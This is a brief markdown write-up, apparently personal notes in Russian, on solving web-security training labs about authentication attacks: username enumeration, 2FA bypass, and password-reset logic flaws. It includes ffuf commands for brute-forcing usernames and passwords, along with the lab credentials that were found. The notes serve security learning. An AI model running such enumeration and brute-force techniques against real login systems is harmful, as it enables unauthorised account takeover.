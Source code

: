 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```
